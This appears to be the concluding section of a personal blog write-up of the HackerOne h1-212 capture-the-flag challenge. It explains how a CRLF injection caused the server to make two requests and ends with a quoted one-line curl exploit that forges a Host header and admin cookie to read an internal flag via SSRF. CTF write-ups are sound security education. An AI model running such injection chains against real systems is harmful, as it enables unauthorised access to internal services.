 
## The answer, free your mind...

After 5 full days working on the challenge, I finally spent the 2 last days with my childrens, trying to get over the headhash.
Since the challenge was ended, I decided to ask the answer to [@EdOverflow](https://twitter.com/EdOverflow), knowing that I would probably cry... and guess what? I did!

Remember that the `id` returned by the POST request is incremented by 1 for each request made by the server ?
But what if I inject a CRLF and the server does 2 requests ? Then the id returned will be incremented by 2, because 1+1=2!
Holy cow!!!!

Running my script like a moron, I only focused my mind on the result of `/read.php` and I didn't even notice that the id jump the steps 2 by 2...  
![ctf h1-212 moron](/images/ctf-h1-212-moron.png)

So I need to decrease the id by 1 to get the result of the previous request.
Which is supposed to be the content of the file I requested aka `http://0:1337/flag`.
![ctf h1-212 answer](/images/ctf-h1-212-answer.png)

Et voilà ! Decoded value:  
&#70;&#76;&#65;&#71;&#58;&#32;&#67;&#70;&#44;&#50;&#100;&#115;&#86;&#92;&#47;&#93;&#102;&#82;&#65;&#89;&#81;&#46;&#84;&#68;&#69;&#112;&#96;&#119;&#34;&#77;&#40;&#37;&#109;&#85;&#59;&#112;&#57;&#43;.........


## Conclusion

Pay attention to all details, stupid idiot!

Jobert's answer in 1 single line:
```none
D=104.236.20.43/;eval echo $(C=admin=yes;H='Host:http://admin.acme.org ';N=$(curl -H'Content-Type:application/json' -H$H -b$C -d'{"domain":"0:1337/flag\n212..com"}' "$D"|egrep -o '[0-9]+');curl -H$H -b$C "$D"read.php?id=`expr $N - 1`|jq .[])|base64 --decode
```

Winners:  
[@EdOverflow](https://twitter.com/EdOverflow)  
[@albinowax](https://twitter.com/albinowax)  
[@erbbysam](https://twitter.com/erbbysam)  

Congrats to these 3 people, congrats to all others that successfully got the flag and congrats to everyone that at least gave a try!


## External resources

- [Hack your way to NYC this December for h1-212](https://www.hackerone.com/blog/hack-your-way-to-nyc-this-december-for-h1-212)
- [h1-212 writeups](https://github.com/Hacker0x01/h1-212-ctf-solutions)
